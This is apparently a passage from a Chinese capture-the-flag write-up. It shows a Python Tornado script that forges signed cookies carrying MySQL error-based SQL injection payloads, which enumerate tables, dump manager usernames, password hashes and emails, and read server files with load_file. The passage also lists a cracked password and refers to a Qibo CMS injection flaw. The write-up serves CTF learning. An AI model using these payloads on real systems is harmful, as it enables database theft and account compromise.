 
```py
import tornado.web
import tornado.ioloop

settings = {
  'cookie_secret': 'M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc='
}

class MainHandler(tornado.web.RequestHandler):
  def get(self):
    self.write('aaa')
    # self.set_secure_cookie('username', "' and updatexml(1,concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#")
    # self.set_secure_cookie('username', "' and updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name='manager'),0x7e),1)#")
    # self.set_secure_cookie('username', "' and updatexml(1,concat(0x7e, (select group_concat(username,'||',password,'||',email) from manager),0x7e),1)#")
    self.set_secure_cookie('username', "' and updatexml(1,concat(0x7e, mid((select group_concat(username,'||',password,'||',email) from manager),30,40),0x7e),1)#")
    self.write(self.get_secure_cookie('username'))

def makeapp():
  return tornado.web.Application([
    (r'/index', MainHandler),
  ], **settings)

app = makeapp()
app.listen(8089)
tornado.ioloop.IOLoop.instance().start()
```


浏览器访问本机 8089 端口，在返回头 `Set-Cookie` 中得到加密后的注入语句，带着这个 cookie 访问网页的 `/lock`（而不是 `/login`）。在爆用户名、密码和邮箱时，显示长度有限制，因此需要分两次用 `mid` 截取，最终得到用户名、密码和邮箱为：
```
ichuqiu||318a61264482e503090facfc4337207f||545
```
密码经过 MD5 解密得到：`Myxss623`。登录在后台发现 `f13g_ls_here.txt` 文件，继续通过注入读取该文件。将代码中 `set_secure_cookie` 的第二个参数改为：
```
"' and updatexml(1,concat(0x7e, (select load_file('/var/www/html/fl3g_ls_here.txt')),0x7e),1)#"
```
然后故技重施，由于长度限制只得到一部分 flag，再修改 payload：
```
"' and updatexml(1,concat(0x7e, mid((select load_file('/var/www/html/f13g_ls_here.txt')),30,40),0x7e),1)#"
```
即可得到第二部分。

## 再见 CMS
根据登录页面页脚可以判断出该 CMS 为齐博 CMS。[漏洞参考](https://blog.csdn.net/qq_33020901/article/details/52593063)，很巧妙地利用了转义进行 SQL 注入。
